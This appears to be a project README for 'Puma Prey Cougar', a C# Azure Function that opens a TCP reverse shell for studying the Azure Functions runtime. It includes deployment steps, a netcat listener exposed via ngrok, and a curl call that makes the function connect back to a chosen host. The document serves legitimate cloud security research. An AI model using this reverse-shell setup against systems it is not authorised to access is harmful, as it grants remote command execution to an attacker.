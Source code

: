 # Puma Prey Cougar

Cougar is a C# function that can be deployed to the Azure to establish a TCP reverse shell for the purposes of introspecting the Azure Functions container runtime.

## Installing Prerequisites

* [.NET Core 3.1 SDK](https://dotnet.microsoft.com/download)
* [Azure CLI](https://github.com/Azure/azure-cli)
* [Terraform](https://learn.hashicorp.com/terraform/getting-started/install.html)

## Deploying the Function

### Native Deployment

Requires the Resource Group, Function App (.NET Core, Linux OS), App Service Plan, App Insights, and Storage Account to be created in US West.

```bash
func azure functionapp publish pumapreycougar
```

Then, enable the function identity to use an MSI account during execution.

### Terraform

```bash
cd src
dotnet publish
cd ../terraform
terraform init
export TF_VAR_UniqueString=$(uuidgen | cut -b 25-36 | awk '{print tolower($0)}') # Save this value for future sessions.

# Optional: Use a Windows runtime (defaults to Linux).
export TF_VAR_AppServicePlanKind=Windows

az login
terraform apply
```

## Testing in Azure

Retrieve the API key in the Azure Portal by searching for "Function App", clicking on the new Function App resource, clicking "Manage", and clicking "Click to show" next to the default function key.

If you have [Netcat](http://netcat.sourceforge.net/) and [ngrok](https://ngrok.com/) installed, you can use this script:

```bash
script/cougar --url-id "cougar$TF_VAR_UniqueString" --api-key YOUR_API_KEY
```

See [here](../script/USAGE.md) for more details on how to use this script.

Alternatively, you can do this manually by setting up a Netcat listener like so:

```bash
nc -l 4444
```

Then, to make your listener accessible from the public internet, consider using a service like ngrok:

```bash
ngrok tcp 4444
```

Finally, invoke your function, supplying your connection details and API key:

```bash
curl "https://cougar$TF_VAR_UniqueString.azurewebsites.net/api/Cougar?host=YOUR_PUBLICLY_ACCESSIBLE_HOST&port=YOUR_PORT_NUMBER&code=YOUR_API_KEY"
```

Your listener will now act as a reverse shell for the duration of the function invocation.

## Teardown

```bash
terraform destroy
```

## Running Locally

Install [Azure Functions Core Tools](https://docs.microsoft.com/en-us/azure/azure-functions/functions-run-local) and run the following:

```bash
cd src
dotnet restore
dotnet build
func start
```

## Testing Locally

```bash
curl 'http://localhost:7071/api/Cougar?host=YOUR_ACCESSIBLE_HOST&port=YOUR_PORT_NUMBER'
```

## Learning More

Read [documentation](docs) on what you can accomplish once you connect to the runtime via Cougar.

## Azure Function C# Template

```bash
func init Cougar --csharp --dotnet
func new --template "HTTP trigger" --name GetCougar
```
